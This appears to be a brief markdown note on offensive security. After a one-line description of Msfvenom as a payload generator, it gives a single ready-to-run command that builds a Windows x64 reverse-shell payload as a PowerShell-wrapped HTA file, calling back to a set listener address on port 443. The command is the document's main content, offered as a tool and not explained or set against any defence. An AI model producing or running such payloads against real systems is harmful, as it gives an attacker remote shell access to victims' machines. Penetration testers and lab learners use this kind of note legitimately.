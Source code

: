 

# Msfvenom
Msfvenom is a standalone payload generator.



# Create a reverse shell payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.56.2 LPORT=443 -f hta-psh -o payload.hta